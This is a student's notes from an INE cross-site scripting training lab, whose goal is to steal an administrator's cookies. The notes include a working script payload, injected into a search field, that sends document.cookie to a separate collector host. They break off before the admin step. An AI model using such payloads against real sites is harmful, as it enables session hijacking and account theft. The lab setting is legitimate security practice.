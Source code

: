 # XSS Lab 
# INE
# RCM 8/14/21

# Description
n this lab you can practice XSS attacks against a web application hosted at the address 192.168.99.10. Since the application allows registered users to add comments, we have already created an account on the application. The credentials of this account are:

    Username: attacker

    Password: attacker

Moreover, we created another web page in the lab for your convenience. You can use it to receive stolen cookies! You can find it at http://192.168.99.11/get.php : it takes all parameters passed via GET and stores them into the jar.txt file.

# Goal
The administrator visits the application every few minutes. The final goal of the lab is to steal the administrator cookies via XSS. Once you have these cookies you should be able to access the content of the page admin.php.

# Tools
Brain

# Steps

1. Find all XSS injection points in the web app.
- Log in with credentials attacker:attacker
- Go to blog
- Script is not working..<script>alert('document.cookie')</script>
- `<script> var i = new Image(); i.src="http://192.168.99.11/get.php?
cookie="+escape(document.cookie)</script>`
 - Injected into search bar because blog post comments were not working.
 - Feedback page form is also vulnerable.
 - I got my session cookies in the jar.txt
 - How to get admin cookies...
2. Steal admin cookies (restart lab)

